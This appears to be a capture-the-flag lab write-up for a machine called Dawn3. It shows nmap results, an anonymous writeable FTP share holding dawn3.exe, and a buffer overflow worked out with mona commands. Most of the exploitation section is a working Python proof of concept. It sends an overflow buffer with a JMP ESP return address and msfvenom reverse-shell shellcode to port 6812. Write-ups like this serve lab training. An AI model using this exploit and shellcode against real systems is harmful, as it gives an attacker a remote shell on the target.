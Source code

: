 # Export
```md
export IP="192.168.217.13"
export URL="http://192.168.217.13"
```

<hr>

# Loot
+ `dawn3.exe` found in the ftp server.
+ Vulnerable to BoF exploit → get `root` shell.

<hr>

# Nmap

```bash
2100/tcp open  ftp     syn-ack ttl 63 pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwsrwxrwx   1 dawn3    dawn3      292728 Mar 08  2020 dawn3.exe [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.217.13:2100
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
6812/tcp open  unknown syn-ack ttl 63
```

<hr>

# FTP

+ Anonymous allows: read and write

```md
ftp> ls
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rwsrwxrwx   1 dawn3    dawn3      292728 Mar 08  2020 dawn3.exe
226 Transfer complete.
```

<hr>

# Exploitation
#### Buffer Overflow

+ Set working dir:

```md
!mona config -set workingfolder C:\Users\admin\Desktop
```

+ Pattern offset: `524`

```md
!mona findmsp -distance 600
```

+ Bad char: `\x00\x01`

```md
!mona bytearray -b "\x00"
!mona compare -f C:\Users\admin\Desktop\bytearray.bin -a <ESP_address>
```

+ Jump point: `52501513`

```md
!mona jmp -r esp -cpb "\x00\x01"
```

+ PoC:

```py
import socket

ip = "192.168.217.13"
port = 6812

offset = 524
overflow = "A" * offset
retn = "\x13\x15\x50\x52" # JMP ESP address 52501513
padding = "\x90"*16

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -b "\x00\x01" -f py
buf =  ""
buf += "\xda\xca\xb8\xd4\x32\x74\xf0\xd9\x74\x24\xf4\x5b\x33"
buf += "\xc9\xb1\x12\x31\x43\x17\x03\x43\x17\x83\x17\x36\x96"
buf += "\x05\xa6\xec\xa1\x05\x9b\x51\x1d\xa0\x19\xdf\x40\x84"
buf += "\x7b\x12\x02\x76\xda\x1c\x3c\xb4\x5c\x15\x3a\xbf\x34"
buf += "\x66\x14\x0e\x1d\x0e\x67\x71\x87\x53\xee\x90\x07\x0d"
buf += "\xa1\x03\x34\x61\x42\x2d\x5b\x48\xc5\x7f\xf3\x3d\xe9"
buf += "\x0c\x6b\xaa\xda\xdd\x09\x43\xac\xc1\x9f\xc0\x27\xe4"
buf += "\xaf\xec\xfa\x67"

postfix = "\x90\x90\x90\x90"

buffer = overflow + retn + padding + buf + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```
